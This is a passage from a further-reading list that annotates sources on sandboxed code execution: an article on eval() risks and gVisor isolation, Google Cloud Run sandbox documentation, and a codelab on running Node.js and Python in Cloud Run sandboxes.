   *By Daniel Strebel.* An exploration of why traditional `eval()` is vulnerable and how gVisor and Cloud Run micro-sandboxes eliminate the attack surface.
7. **[Official Google Cloud Documentation: Configuring Sandboxes for Services](https://docs.cloud.google.com/run/docs/configuring/services/sandboxes)** & **[Code Execution in Cloud Run](https://docs.cloud.google.com/run/docs/code-execution)**  
   The authoritative syntax, API references, YAML configurations, and CLI flag documentation.
8. **[Google Developers Codelab: Execute Node.js and Python in Cloud Run Sandboxes](https://codelabs.developers.google.com/codelabs/cloud-run/execute-nodejs-python-in-cloud-run-sandbox)**  
   Hands-on codelab orchestrating multi-language runtimes dynamically inside Cloud Run sandboxes.
